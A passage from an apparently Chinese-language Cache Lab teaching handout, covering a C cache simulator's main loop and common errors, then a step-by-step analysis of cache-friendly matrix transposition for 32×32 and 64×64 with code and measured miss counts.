default: usage(stderr, argv[0]); return 1;
}
}
if (s < 0 || E < 1 || b < 0 || s + b >= 64 || tracefile == NULL ||
optind < argc) {
fprintf(stderr, "%s: missing or invalid argument\n", argv[0]);
usage(stderr, argv[0]);
return 1;
}
if ((fp = fopen(tracefile, "r")) == NULL) {
perror(tracefile);
return 1;
}
if ((cache = calloc((size_t) E << s, sizeof(line_t))) == NULL) {
fprintf(stderr, "%s: out of memory\n", argv[0]);
fclose(fp);
return 1;
}
/* " %c" skips the leading space of L/S/M lines (and none for I) */
while (fscanf(fp, " %c %lx,%d", &op, &addr, &size) == 3) {
if (op == 'I')
continue;
if (verbose)
printf("%c %lx,%d", op, addr, size);
access_cache(addr);
if (op == 'M') /* the store always hits */
access_cache(addr);
if (verbose)
printf("\n");
}
fclose(fp);
free(cache);
printSummary(hits, misses, evictions);
return 0;
}选择被替换的行写在同一个循环里：遇到空行立即选中并停止；否则保留时间戳最小的行。是否计一次驱逐，看的是被选中的那一行原来是否有效。把其中的 getopt 循环换成第 2.3 节的手写循环、parse_int 换成第 2.4 节的 parse_nonneg，再去掉 errno.h、getopt.h、unistd.h，就是不用这些库函数的版本，同样通过全部测试。
2.7 Part A 的常见错误#
表 11 Part A 的常见错误与症状
| 错误 | 症状与改法 |
|---|---|
组的起点写成 cache + (1 << set) * E * sizeof(line_t) | 两处错：组号不是指数；指针加法已按元素大小缩放，不能再乘 sizeof。越界写会破坏堆，valgrind 可能把错误报在之后的 fscanf 上 |
| tag 用 unsigned int 保存 | 64 位地址的高位被截断。traces 中有 0x7ff... 这样的栈地址时，数字对不上 |
| 命中只比较 tag | 空行的 tag 为 0，地址高位为 0 时被误判为命中 |
| 组内有空行也计驱逐 | 驱逐数偏大，且可能大于不命中数 |
| M 只算一次访问 | 命中数少；M 必须访问两次 |
1 << (s + b) 用 int 计算 | s + b ≥ 31 时溢出；一律用 1UL |
| 参数变量用 0 作初值 | 分不出“没有给这个选项”和“给了 0”；用 −1 作初值，循环结束后统一检查（第 2.3 节） |
| 把 E < 0 当作非法 | E = 0 没有被拦住，后面分配 0 行，访问越界；应为 E < 1 |
getopt 格式串漏写冒号，如 "hvs:E:b:t" | -t 不带值，optarg 拿不到文件名 |
没有 #include <getopt.h> | -std=c99 下 optarg、optind 未声明，编译失败 |
| 用 goto 实现 M 的两次访问 | 能工作，但可读性差，可能被扣风格分；直接调用两次访问函数即可 |
| 退出前没有 free、fclose | 内存泄漏扣 3 分 |
| 用 atoi 转换参数 | "abc"、"4x"、"4.5" 都被当作合法的数（第 2.4 节） |
| 调用 strtol 之前没有把 errno 置 0 | 之前某次调用留下的 ERANGE 会让合法的输入被拒绝 |
| 错误信息用 printf 输出 | 混在 stdout 中，重定向到文件或 /dev/null 后就看不到了；应写到 stderr |
| 自己 printf 结果而不调用 printSummary | test-csim 从 printSummary 写的 .csim_results 读结果，这样得 0 分 |
第三部分 Part B 的分析方法#
3.1 评测缓存与矩阵在内存中的位置#
Part B 的评测缓存是 s = 5、E = 1、b = 5：32 组，每组 1 行，块大小 32 字节，总容量 1 KB，是一个直接映射缓存。一块正好装 8 个 int，所以“一行缓存”就是“矩阵某一行中连续的 8 个元素”（假定对齐，下面会说明）。
要分析冲突，先要知道 A、B 在哪里。tracegen.c 把两个矩阵定义为相邻的静态数组：
static int A[256][256];
static int B[256][256];转置函数的参数写成 int A[N][M]，它把 A 开头的 N × M 个 int 当作 N 行 M 列的矩阵，B 同理；矩阵的行与行在内存中紧挨着，并不是 256 列的大数组中的一块。A 和 B 的起点相差 256 × 256 × 4 字节 = 256 KB，是 1 KB 的整数倍，所以相同偏移量的元素映射到同一组。在 handout 的环境中，A 的起点也恰好按 32 字节对齐（本讲义几次编译得到的 A[0][0] 地址分别以 a0、e0 结尾）。由此可以写出两个矩阵的组号公式，其中 s0 是 A[0][0] 所在的组，A、B 相同：
set(A[r][c]) = (s0 + (M * r + c) / 8) mod 32 /* A 有 N 行 M 列 */
set(B[r][c]) = (s0 + (N * r + c) / 8) mod 32 /* B 有 M 行 N 列 */除法向下取整。图 1 把三种规模下 A 前 10 行的每个缓存块和它的组号画了出来。32×32 一行占 4 块，第 r 行与第 r + 8 行落在相同的组；64×64 一行占 8 块，第 r 行与第 r + 4 行就已经相同；60×68 中 A 的一行是 240 字节，即 7.5 块，奇数行从块的中间开始，看不出整齐的周期。
图 1 A 的缓存块与组号（三种规模的前 10 行）
3.2 不命中的下界#
矩阵的每一块至少要装入一次，这部分不命中（冷不命中）无论怎么写都免不了。32×32 的 A 有 32 × 32 × 4 ÷ 32 = 128 块，B 也是 128 块；64×64 各 512 块；60×68 各 4080 × 4 ÷ 32 = 510 块。
此外，test-trans 截取的 trace 中还有 4 次与矩阵无关的访问：开头写 MARKER_START（1 字节），读函数指针（8 字节），读参数 M 和 N（两个 4 字节，在同一块中），结尾写 MARKER_END。开头三次分别在三个不同的块中，必然不命中；MARKER_END 与 MARKER_START 在同一块，但中间矩阵的访问早已把那一组换掉了，所以也不命中。于是得到三种规模的朴素计数（假设每个块只冷装入一次）：
表 12 三种规模的朴素不命中下界
| 规模 | A 的块数 | B 的块数 | 额外访问 | 朴素下界 | 满分线 |
|---|---|---|---|---|---|
| 32×32 | 128 | 128 | 4 | 260 | 300 |
| 64×64 | 512 | 512 | 4 | 1028 | 1300 |
| 60×68 | 510 | 510 | 4 | 1024 | 1600 |
表里的“朴素下界”只按每个矩阵块至少冷装入一次计数，并不保证能达到。第四部分会看到，32×32 和 64×64 都能恰好达到它；60×68 的 1024 却不可达，第八部分会证明矩阵访问至少 1021 次，加上 4 次框架访问至少 1025 次。分析一种写法时，最有用的思路就是对照这个计数：多出来的不命中，一定是某些块被装入了不止一次，找出是哪些块、为什么被提前换出，就知道该怎么改。
3.3 怎样数清每一次不命中#
test-trans 把第 i 个注册函数的 trace 存为 trace.fi，用 csim-ref 重放就能看到每次访问的结果：
./test-trans -M 32 -N 32
./csim-ref -v -s 5 -E 1 -b 5 -t trace.f0 > out.txt
grep -c "miss" out.txt # 不命中的行数
grep "^S" out.txt | grep -c miss # 其中写操作的不命中看输出时有几点要注意。第一，只有大小为 4 的访问才是矩阵元素；trace 开头的 S ...,1、L ...,8 和两次 L ...,4 是 3.2 节说的额外访问，不要误当成 A[0][0]。第二，-v 的输出行首没有空格，trace 文件里才有，所以要写 grep "^S" 而不是 grep "^ S"。第三，地址换算成组号是 (addr >> 5) & 31，两个地址组号相同而标记不同，就会互相替换。第四，如果转置结果不正确，test-trans 会跳过性能测试，这时目录里的 trace.fi 可能是上一次运行留下的，不能用来分析。
更系统的做法是写一个小脚本，按地址算出每次不命中属于 A 还是 B、属于哪个分块，再按分块统计。本讲义的源文件中附有这样的脚本（sim/blockmiss.py），第四部分各分块的不命中次数都是用它统计的。此外还附有一个按相同规则模拟的 Python 模型（sim/sim.py）：它把 A、B 放在与 tracegen 相同的位置，加上 4 次额外访问，对本讲义中的每种写法都给出与 test-trans 完全相同的数字，用来快速比较几十种分块参数，比每次编译运行 valgrind 方便得多。第四部分会看到，32×32 的朴素 8×8 分块共 344 次不命中，统计之后立刻发现非对角分块每块都是 16 次，问题全在对角线上。
第四部分 32×32 的转置#
4.1 起点：逐行转置为什么这么差#
handout 中的 trans 就是最直接的写法：
for (i = 0; i < N; i++)
for (j = 0; j < M; j++)
B[j][i] = A[i][j];test-trans 测得 1184 次不命中，而下界是 260。按矩阵分开统计，A 只有 156 次，B 有 1024 次：B 的每一次写都不命中。
原因看图 2就清楚了。A 按行读，地址连续，一块 8 个 int 依次用完才换下一块，128 块基本各装入一次（多出的 28 次是 B 的写入偶尔换出了 A 正在读的块）。B 按列写：内层循环中 j 每加 1，写的位置就跳到 B 的下一行，相隔 128 字节。B[0][i]、B[1][i]、……、B[31][i] 分别在 32 个不同的块中；等到写 B[0][i+1] 时，中间已经写过 31 个别的块，而缓存一共只有 32 块，并且 B 的第 0 行与第 8、16、24 行就在同一组，B[0][i] 所在的块早已被换出。于是每次写都要重新装入，32 × 32 = 1024 次。
用第 13 讲的话说，A 一侧有很好的空间局部性，B 一侧也有空间局部性（同一块的 8 个元素都会被写到），但使用它们的时间隔得太远，在再次使用之前块就被换出了。
图 2 32×32 的矩阵在内存中的排列：每行 128 字节，切成 4 个块；第 r 行与第 r+8 行映射到相同的组。A、B 相距 256 KB，同一位置的元素组号也相同
4.2 第一个想法：改变循环次序#
第 13 讲 13.11 节讲矩阵乘法时，改变 i、j、k 三层循环的次序，就让内层循环变成按行访问，不命中率大幅下降。转置能不能这样做？把两层循环交换，变成按列读 A、按行写 B：
for (j = 0; j < M; j++)
for (i = 0; i < N; i++)
B[j][i] = A[i][j];实测仍是 1184 次，只是 A、B 对调了：A 1024 次，B 156 次。这说明转置与矩阵乘法有一个本质区别：A[i][j] 写到 B[j][i]，一侧按行，另一侧必然按列，不论怎样安排循环次序，总有一个矩阵是跨行访问的。单靠改变循环次序解决不了问题。
4.3 第二个想法：分块#
第 13 讲 13.12 节的另一个方法是分块：既然 B 的块在“下一次被用到”之前就被换出，那就缩短两次使用之间的间隔。把矩阵切成 b × b 的小块，一块一块地转置；在一个分块内，B 的每一块被连续使用 b 次，只要这段时间里它还在缓存中，就只装入一次。
for (ii = 0; ii < N; ii += 8)
for (jj = 0; jj < M; jj += 8)
for (i = ii; i < ii + 8; i++)
for (j = jj; j < jj + 8; j++)
B[j][i] = A[i][j];分块的大小怎么选？由图 2，32×32 的第 r 行和第 r+8 行在同一组，所以最多 8 行可以同时留在缓存中。分块的边长超过 8，块内的行就会互相替换；太小，一块 8 个 int 又只能用到一部分。实测如下：
表 13 32×32 不同分块大小的不命中（test-trans 实测）
| 分块 | 合计 | A | B | 说明 |
|---|---|---|---|---|
| 2×2 | 728 | 180 | 544 | 一块只用到 2 个元素就要换下一块 |
| 4×4 | 488 | 180 | 304 | 一块只用一半，另一半到相邻分块才用，那时已被换出 |
| 8×8 | 344 | 156 | 184 | 分块的行数恰好等于能同时放下的行数 |
| 16×16 | 1184 | 156 | 1024 | 第 r 行与第 r+8 行同组，分块内自己替换自己，与不分块相同 |
8×8 一下子降到 344，离满分线 300 已经不远。A 的 156 次和 B 的 184 次都比各自的 128 块多，接下来要找出多出的这些不命中发生在哪里。
4.4 找出多余的不命中：对角线#
用第 3.3 节的方法按分块统计 8×8 分块的结果：12 个非对角分块每块恰好 16 次，正好是 A、B 各 8 块；4 个对角分块每块 37 次（A 15 次，B 22 次）。多出的 84 次全部来自对角线上的 4 个分块，另外 4 次是额外访问。
为什么偏偏是对角线？由 3.1 节的组号公式，A 与 B 相距 1 KB 的整数倍，A[r][c] 与 B[r][c] 在同一组。图 3 画出了两种分块中每一行的组号：非对角分块（例如 A 的第 0～7 行、第 8～15 列，写到 B 的第 8～15 行、第 0～7 列）里，A 的 8 行和 B 的 8 行分别在 16 个不同的组；对角分块里，A 的第 k 行与 B 的第 k 行组号完全相同。
图 3 对角分块与非对角分块中各行的组号：对角分块里 A 的第 k 行与 B 的第 k 行同组
具体看对角分块中第 2 行的处理过程。内层循环读 A[2][0]、写 B[0][2]，读 A[2][1]、写 B[1][2]……读到 A[2][2] 时，接着要写 B[2][2]，而 B 的第 2 行与 A 的第 2 行在同一组，写入把 A 的第 2 行换了出去；下一步读 A[2][3]，又要把 A 的第 2 行装回来，换出 B 的第 2 行。不仅如此，B 的第 2 行在前两次迭代中已经装入过，读 A 的第 2 行时就把它换出了，到这一行写它时还要再装一次。对角分块中 A、B 的同号行就这样反复互相替换。
这类不命中有一个专门的名字：冲突不命中（第 13 讲 13.1 节）。缓存并没有满（一个分块只用 16 块，缓存有 32 块），只是两块恰好映射到同一组。第七部分会用一个全相联缓存做对照实验：同样的访问顺序换成全相联缓存，8×8 分块只有 260 次，也就是说，多出的 84 次全部是冲突不命中。
4.5 第三个想法：把读和写在时间上分开#
冲突发生在“读 A 的第 k 行”和“写 B 的第 k 行”交替进行的时候。最直接的补救是不让它们交替：遇到对角元素先不写，等这一行的其他元素都处理完再写。
for (i = ii; i < ii + 8; i++) {
for (j = jj; j < jj + 8; j++)
if (i == j) { d = j; t = A[i][j]; } /* keep the diagonal element */
else B[j][i] = A[i][j];
if (ii == jj) B[d][i] = t; /* write it last */
}实测 288 次，A 降到恰好 128 次：A 的每一行都在一口气读完之后才被 B 换出，不再需要重新装入。
更一般的写法是：每次把 A 的一整行（8 个元素）读进 8 个局部变量，再把它们写到 B 的一列。这样一来，“读 A”和“写 B”在时间上完全分开，对角线不需要特殊判断：
for (i = ii; i < ii + 8; i++) {
t0 = A[i][jj]; t1 = A[i][jj + 1]; /* ... */ t7 = A[i][jj + 7];
B[jj][i] = t0; B[jj + 1][i] = t1; /* ... */ B[jj + 7][i] = t7;
}局部变量放在寄存器或栈上，评测程序看不到它们的访问，读进局部变量之后，A 的这一块被换出也没有关系。结果同样是 288。12 个局部变量的限制在这里正好够用：8 个存数据，4 个作循环变量。
288 已经低于满分线，但对角分块仍是每块 23 次而不是 16 次，多出的 7 次都在 B 一侧。图 4 逐步列出了对角分块中 8 个组的内容：第 0 次迭代写 B 的第 0 列时，B 的 8 行全部装入；此后第 k 次迭代读 A 的第 k 行时，又把 B 的第 k 行换了出去，紧接着写 B 的第 k 列时再装回来。读和写虽然分开了，但 B 的第 k 行“装入、被换出、再装入”的问题还在：1 + 8 + 7 × 2 = 23 次。
图 4 对角分块用“先读后写”时 8 个组的内容变化：B 的第 1～7 行各被 A 的同号行换出一次
4.6 第四个想法：把 B 当作暂存空间#
剩下的问题是：B 的第 k 行已经装入，却要在 A 的第 k 行被读取时让出位置。要避免这一点，就要让“A 的第 k 行被读取”发生在“B 的第 k 行装入”之前，并且此后不再读 A 的这一行。“先读后写”只把一行的读写分开了，我们需要把整个分块的读写分开。局部变量只有 8 个，装不下整个分块，但第 1.3 节说过，B 可以随意使用，B 本身就可以当作暂存空间。
先拷贝，再就地转置#
第一种做法如图 5：先不转置，把 A 的第 k 行原样拷贝到 B 的第 k 行（每次仍然是 8 个局部变量中转）；8 行拷完之后，B 的这个分块里放的是 A 分块的原样，再在 B 内部沿对角线交换，完成转置。
图 5 先拷贝、再在 B 中就地转置
第一阶段每次迭代先读完 A 的第 k 行（1 次不命中），再写 B 的第 k 行（1 次不命中）。对角分块中 B 的第 k 行会换出 A 的第 k 行，但 A 的这一行已经读完，不再需要。第二阶段只访问 B 的这 8 行，它们在 8 个不同的组中，第一阶段结束时都在缓存里，交换全部命中。每个分块都是 16 次，合计 16 × 16 + 4 = 260 次，等于下界：
static void trans32(int A[32][32], int B[32][32])
{
int i, j, k, l, t0, t1, t2, t3, t4, t5, t6, t7;
for (i = 0; i < 32; i += 8)
for (j = 0; j < 32; j += 8) {
for (k = 0; k < 8; k++) {
t0 = A[i + k][j]; t1 = A[i + k][j + 1];
t2 = A[i + k][j + 2]; t3 = A[i + k][j + 3];
t4 = A[i + k][j + 4]; t5 = A[i + k][j + 5];
t6 = A[i + k][j + 6]; t7 = A[i + k][j + 7];
B[j + k][i] = t0; B[j + k][i + 1] = t1;
B[j + k][i + 2] = t2; B[j + k][i + 3] = t3;
B[j + k][i + 4] = t4; B[j + k][i + 5] = t5;
B[j + k][i + 6] = t6; B[j + k][i + 7] = t7;
}
for (k = 0; k < 8; k++)
for (l = k + 1; l < 8; l++) {
t0 = B[j + k][i + l];
B[j + k][i + l] = B[j + l][i + k];
B[j + l][i + k] = t0;
}
}
}这个函数正好用了 12 个局部变量。
借相邻分块暂存#
另一种思路只改对角分块：先把 A 的对角分块拷到 B 中另一个还没处理的分块（比如右边相邻的分块，它与 A 的这些行不在同一组），再从那里转置写回对角位置。对角分块本身确实降到了 16 次，但处理顺序有讲究。如果先集中处理 4 个对角分块，再处理其余分块，结果是 292：后一个对角分块用到的组，恰好有前一个暂存区所在的组，暂存区被换了出去，等到它所属的分块被处理时，要重新装入，每个多 8 次（这样安排顺序，原本是为了保证暂存区所属的分块还没有写入最终结果）。改成处理完每个对角分块，就紧接着处理它借用的那个分块，暂存区的 8 行还在缓存中，结果同样是 260，正确性也不受影响，因为每个对角分块借用的都是不同的分块。
两种做法的共同点是：数据只在当时都在缓存中的块之间搬运。
表 14 32×32 的逐步改进（test-trans 实测）
| 写法 | 合计 | A | B | 解决了什么 |
|---|---|---|---|---|
| 逐行转置 | 1184 | 156 | 1024 | — |
| 交换循环次序 | 1184 | 1024 | 156 | 问题从 B 转到 A |
| 8×8 分块 | 344 | 156 | 184 | B 的块在用完前不再被换出 |
| 8×8，对角元素最后写 | 288 | 128 | 156 | A 的行不再被打断 |
| 8×8，先读后写（8 个局部变量） | 288 | 128 | 156 | 同上，不需要特判 |
| 对角分块借相邻分块，先集中处理对角分块 | 292 | 128 | 160 | 对角分块降到 16，但暂存区装入两次 |
| 同上，紧接着处理暂存所属的分块 | 260 | 128 | 128 | 达到下界 |
| 先拷贝，再在 B 中就地转置 | 260 | 128 | 128 | 达到下界 |
第五部分 64×64 的转置#
5.1 照搬 32×32 的写法#
有了 32×32 的经验，自然先试 8×8 分块，再加上先读后写。结果却出人意料：8×8 分块 4724 次，与逐行转置完全相同；先读后写 4612 次，几乎没有改善。按矩阵分开看，先读后写之后 A 已经是 512 次（恰好是 A 的块数），而 B 是 4096 次，B 的每一次写都不命中，分块完全失效了。
原因在 64×64 的几何。一行 64 个 int，占 8 块，相邻两行的组号相差 8，第 r 行与第 r+4 行就回到了同一组（图 1 中图）。一个 8×8 分块写入 B 的 8 行，这 8 行只占 4 个组（图 6 左）：写 B 的第 j～j+3 行时它们被装入，接着写第 j+4～j+7 行，又把前 4 行换了出去；处理 A 的下一行时，再写第 j 行，又要重新装入。于是每一次写都是不命中，与不分块一样。
图 6 64×64 的两个困难：8×8 分块中 B 的 8 行只占 4 个组（左）；4×4 分块只用到每个缓存块的一半（右）
32×32 能同时放 8 行，所以 8×8 正好；64×64 只能同时放 4 行，分块的边长就不能超过 4。
5.2 换几种块的形状#
既然最多只能同时放 4 行，自然改用 4×4 分块：1892 次，比 4724 好得多，再加上先读后写是 1700 次，但都超过满分线 1300。问题出在图 6 右：一个缓存块有 8 个 int，4×4 分块只用到其中 4 个，另外 4 个属于右边（或下边）的分块，等到处理那个分块时，这一块往往已被换出，要再装入一次。A、B 两侧都有这个问题，所以接近“每块装入两次”。
接下来很容易想到：能不能让分块在一个方向上取 8、另一个方向上取 4？下表是几种尝试：
表 15 64×64 各种块形状的不命中（test-trans 实测）
| 写法 | 合计 | A | B | 说明 |
|---|---|---|---|---|
| 8×8 分块 | 4724 | 624 | 4096 | B 的 8 行互相替换 |
| 8×8，先读后写 | 4612 | 512 | 4096 | A 已达下界，B 不变 |
| 4×4 分块 | 1892 | 672 | 1216 | 每块只用一半 |
| 4×4，对角元素最后写 | 1796 | 624 | 1168 | |
| 4×4，先读后写 | 1700 | 576 | 1120 | |
| 4×8（A 取 4 行 8 列） | 4724 | 624 | 4096 | 转置后 B 一侧是 8 行 |
| 4×8，左 4 列、右 4 列分两趟 | 1892 | 672 | 1216 | 等同于 4×4 |
| 8×4（A 取 8 行 4 列） | 1844 | 1120 | 720 | B 一侧好了，A 一侧每块只用一半 |
规律很清楚：转置会把块的形状翻过来。A 的 4 行 8 列，写到 B 就是 8 行 4 列；A 的 8 行 4 列，写到 B 就是 4 行 8 列。我们希望两件事同时成立：
1. A 一侧每次读满一整块（8 个 int），这样 A 的每一块只装入一次；
2. B 一侧同时在用的行不超过 4 行，这样 B 的行不会互相替换。
第 1 条要求 A 一侧的块宽是 8，于是 B 一侧的块高是 8，与第 2 条矛盾。只靠选择块的形状，两个要求不可能同时满足。
5.3 用 B 暂存打破矛盾：拆成四个象限#
矛盾的根源是：从 A 读出一整块 8 个数后，其中 4 个要写到 B 的上半（第 j～j+3 行），另外 4 个要写到 B 的下半（第 j+4～j+7 行），而上下两半不能同时在缓存中。32×32 的最后一步给了我们启示：数据不一定直接放到最终位置，可以先暂存在 B 中某个当时在缓存里的地方。
把 8×8 分块看成四个 4×4 象限：左上（TL）、右上（TR）、左下（BL）、右下（BR）。转置后，A 的 TL 到 B 的 TL，A 的 BR 到 B 的 BR，A 的 TR 到 B 的 BL，A 的 BL 到 B 的 TR。处理分三步（图 7）：
图 7 “拆四象限”的三个步骤
第一步，读 A 的前 4 行，每行 8 个数读进局部变量。前 4 个转置后写进 B 的 TL，这就是最终位置；后 4 个本该写到 B 的 BL，但 BL 在 B 的下半，现在写会把上半换出去，所以先转置后放在 B 的 TR。B 的 TR 与 TL 在同样的 4 行中，这 4 块写 TL 时已经装入，暂存不产生任何不命中；而且 TR 迟早要被 A 的 BL 覆盖，现在借用不会丢失任何数据。这一步装入 A 的前 4 块和 B 的前 4 块。
第二步，逐列处理 A 的 BL。第 k 轮先从 B 第 j+k 行的 TR 中取出 4 个暂存值，再读 A 的 BL 的第 k 列（A 的第 i+4～i+7 行各一个数），共 8 个局部变量；然后把 A 的这一列写进 B 第 j+k 行的 TR（最终位置），把 4 个暂存值写进 B 第 j+k+4 行的 BL（最终位置）。写第 j+k+4 行会换出第 j+k 行，但第 j+k 行此时已经全部完成。这一步装入 A 的后 4 块和 B 的后 4 块。
第三步，A 的后 4 行和 B 的后 4 行都还在缓存中，把 BR 转置过去，全部命中。
这样，A 的 8 块、B 的 8 块各装入一次，非对角分块正好 16 次。代码如下（9 个局部变量）：
static void block64(int A[64][64], int B[64][64], int i, int j)
{
int k, t0, t1, t2, t3, t4, t5, t6, t7;
for (k = 0; k < 4; k++) { /* A rows 0-3: TL done, TR parked */
t0 = A[i + k][j]; t1 = A[i + k][j + 1];
t2 = A[i + k][j + 2]; t3 = A[i + k][j + 3];
t4 = A[i + k][j + 4]; t5 = A[i + k][j + 5];
t6 = A[i + k][j + 6]; t7 = A[i + k][j + 7];
B[j][i + k] = t0; B[j + 1][i + k] = t1;
B[j + 2][i + k] = t2; B[j + 3][i + k] = t3;
B[j][i + k + 4] = t4; B[j + 1][i + k + 4] = t5;
B[j + 2][i + k + 4] = t6; B[j + 3][i + k + 4] = t7;
}
for (k = 0; k < 4; k++) { /* BL in, parked TR out */
t0 = B[j + k][i + 4]; t1 = B[j + k][i + 5];
t2 = B[j + k][i + 6]; t3 = B[j + k][i + 7];
t4 = A[i + 4][j + k]; t5 = A[i + 5][j + k];
t6 = A[i + 6][j + k]; t7 = A[i + 7][j + k];
B[j + k][i + 4] = t4; B[j + k][i + 5] = t5;
B[j + k][i + 6] = t6; B[j + k][i + 7] = t7;
B[j + k + 4][i] = t0; B[j + k + 4][i + 1] = t1;
B[j + k + 4][i + 2] = t2; B[j + k + 4][i + 3] = t3;
}
for (k = 4; k < 8; k++) { /* BR */
t0 = A[i + k][j + 4]; t1 = A[i + k][j + 5];
t2 = A[i + k][j + 6]; t3 = A[i + k][j + 7];
B[j + 4][i + k] = t0; B[j + 5][i + k] = t1;
B[j + 6][i + k] = t2; B[j + 7][i + k] = t3;
}
}全部用这个方法处理，结果是 1228 次，已经低于满分线。按分块统计：56 个非对角分块每块 16 次，8 个对角分块每块 41 次，多出的 200 次全部在对角线上。
5.4 对角分块：四个块的联动#
对角分块的问题与 32×32 相同：A 与 B 的同号行同组。但它比 32×32 更难。32×32 中每一组只有 A、B 各一块互相冲突；64×64 中，由于第 k 行与第 k+4 行本来就同组，每一组里挤着 4 块：A 的第 k、k+4 行，B 的第 k、k+4 行（图 8 上）。四象限方法的第一步写 B 的前 4 行时，会换出 A 还没读完的行，之后又要装回来，每块多出 25 次。
只靠对角分块本身的空间，无法让这 16 块各只装入一次，必须向外借地方。借哪里？同一条行带（B 的第 d～d+7 行）中另一个还没处理的分块，例如右边相邻的分块，取它的前 4 行作暂存区。它的组号是 8m + e/8（e 是它的列号），与对角分块用到的 8m + d/8 都不相同。处理分五步（图 8 下）：
图 8 64×64 对角分块：每组挤着 4 块（上）；借暂存区分五步完成（下）
1. 把 A 的上半（前 4 行）整行原样拷到暂存区的 4 行。A 的前 4 块、暂存区的 4 块各不命中一次。
2. 在暂存区内，把左右两个 4×4 各自转置。全部命中。
3. 把 A 的下半整行原样拷到 B 对角分块的下半。每读完 A 的一行，就写 B 的同号行，B 的这一行换出的正是刚读完的 A 的那一行。A、B 各不命中 4 次。
4. 在 B 对角分块的下半，把左右两个 4×4 各自转置。全部命中。
5. 把数据搬到最终位置：B 下半的左 4 列（转置后的 A 左下）属于 B 上半的右 4 列；暂存区的右半（转置后的 A 右上）属于 B 下半的左 4 列；暂存区的左半（转置后的 A 左上）属于 B 上半的左 4 列。这一步装入 B 上半的 4 块，其余都命中。
合计 20 次：A 8 次、B 对角分块 8 次、暂存区 4 次。暂存区所属的那个分块被处理时，它的第一步要写自己的前 4 行，也就是刚才的暂存区，这 4 块还在缓存中，于是那个分块只需 12 次。两个分块合计 32 次，正好是两个分块的下界。这就是“四个块的联动”：A 的对角分块、B 的对角分块、暂存区所在的分块，以及借用它们之间的处理顺序。
static void diag64(int A[64][64], int B[64][64], int d, int e)
{
int k, l, t0, t1, t2, t3, t4, t5, t6, t7;
for (k = 0; k < 4; k++) { /* 1: A rows 0-3 -> scratch rows */
t0 = A[d + k][d]; t1 = A[d + k][d + 1];
t2 = A[d + k][d + 2]; t3 = A[d + k][d + 3];
t4 = A[d + k][d + 4]; t5 = A[d + k][d + 5];
t6 = A[d + k][d + 6]; t7 = A[d + k][d + 7];
B[d + k][e] = t0; B[d + k][e + 1] = t1;
B[d + k][e + 2] = t2; B[d + k][e + 3] = t3;
B[d + k][e + 4] = t4; B[d + k][e + 5] = t5;
B[d + k][e + 6] = t6; B[d + k][e + 7] = t7;
}
for (k = 0; k < 4; k++) /* 2: transpose both 4x4 halves */
for (l = k + 1; l < 4; l++) {
t0 = B[d + k][e + l];
B[d + k][e + l] = B[d + l][e + k];
B[d + l][e + k] = t0;
t0 = B[d + k][e + 4 + l];
B[d + k][e + 4 + l] = B[d + l][e + 4 + k];
B[d + l][e + 4 + k] = t0;
}
for (k = 4; k < 8; k++) { /* 3: A rows 4-7 -> B rows 4-7 */
t0 = A[d + k][d]; t1 = A[d + k][d + 1];
t2 = A[d + k][d + 2]; t3 = A[d + k][d + 3];
t4 = A[d + k][d + 4]; t5 = A[d + k][d + 5];
t6 = A[d + k][d + 6]; t7 = A[d + k][d + 7];
B[d + k][d] = t0; B[d + k][d + 1] = t1;
B[d + k][d + 2] = t2; B[d + k][d + 3] = t3;
B[d + k][d + 4] = t4; B[d + k][d + 5] = t5;
B[d + k][d + 6] = t6; B[d + k][d + 7] = t7;
}
for (k = 0; k < 4; k++) /* 4: transpose both 4x4 halves */
for (l = k + 1; l < 4; l++) {
t0 = B[d + 4 + k][d + l];
B[d + 4 + k][d + l] = B[d + 4 + l][d + k];
B[d + 4 + l][d + k] = t0;
t0 = B[d + 4 + k][d + 4 + l];
B[d + 4 + k][d + 4 + l] = B[d + 4 + l][d + 4 + k];
B[d + 4 + l][d + 4 + k] = t0;
}
for (k = 0; k < 4; k++) { /* 5: move to final places */
t0 = B[d + 4 + k][d]; t1 = B[d + 4 + k][d + 1];
t2 = B[d + 4 + k][d + 2]; t3 = B[d + 4 + k][d + 3];
t4 = B[d + k][e + 4]; t5 = B[d + k][e + 5];
t6 = B[d + k][e + 6]; t7 = B[d + k][e + 7];
B[d + 4 + k][d] = t4; B[d + 4 + k][d + 1] = t5;
B[d + 4 + k][d + 2] = t6; B[d + 4 + k][d + 3] = t7;
t4 = B[d + k][e]; t5 = B[d + k][e + 1];
t6 = B[d + k][e + 2]; t7 = B[d + k][e + 3];
B[d + k][d] = t4; B[d + k][d + 1] = t5;
B[d + k][d + 2] = t6; B[d + k][d + 3] = t7;
B[d + k][d + 4] = t0; B[d + k][d + 5] = t1;
B[d + k][d + 6] = t2; B[d + k][d + 7] = t3;
}
}static void trans64(int A[64][64], int B[64][64])
{
int i, j;
for (j = 0; j < 64; j += 8) {
diag64(A, B, j, j < 56 ? j + 8 : j - 8);
block64(A, B, j < 56 ? j + 8 : j - 8, j);
for (i = 0; i < 64; i += 8)
if (i != j && i != (j < 56 ? j + 8 : j - 8))
block64(A, B, i, j);
}
}合计 64 × 16 + 4 = 1028，等于下界。局部变量：trans64 有 2 个，diag64 有 10 个，block64 有 9 个，同时存在的最多 12 个。
代码中处理完对角分块后紧接着处理暂存所在的分块，这样最直观。不过在 64×64 中，这个顺序其实不是必需的：同一条行带里，A 第 i 列带的分块只用到第 8m + d/8 组和第 8m + i/8 组，暂存区所在的第 8m + e/8 组只有暂存所属的分块本身才会用到，所以暂存区会一直留到它被处理的时候。实测去掉“紧接着”，按普通顺序处理，结果仍是 1028。这与 32×32 不同（第 4.6 节）：判断顺序是否重要，要看中间处理的分块会不会用到暂存区所在的组。
5.5 小结#
表 16 64×64 的逐步改进（test-trans 实测）
| 写法 | 合计 | A | B | 解决了什么 |
|---|---|---|---|---|
| 逐行转置 / 8×8 分块 | 4724 | 624 | 4096 | — |
| 4×4 分块，先读后写 | 1700 | 576 | 1120 | B 的行不再互相替换 |
| 8×8 拆四象限，借 B 暂存 | 1228 | 584 | 640 | A 读满整块且 B 不超过 4 行；非对角达到下界 |
| 再加对角分块借相邻分块暂存 | 1028 | 512 | 512 | 达到下界 |
与 32×32 相比，64×64 的非对角分块要用暂存来打破“A 读满整块”与“B 不超过 4 行”之间的矛盾，对角分块中每组有四块冲突，要向分块外借空间。两种规模的最终写法都只在当时都在缓存中的块之间搬运数据。
第六部分 60×68 的转置#
6.1 先看几何#
60×68 中 A 有 68 行 60 列，一行 240 字节，是 7.5 块；B 有 60 行 68 列，一行 272 字节，是 8.5 块。行长不再是块的整数倍，带来两个变化（图 1 右图、图 11）：
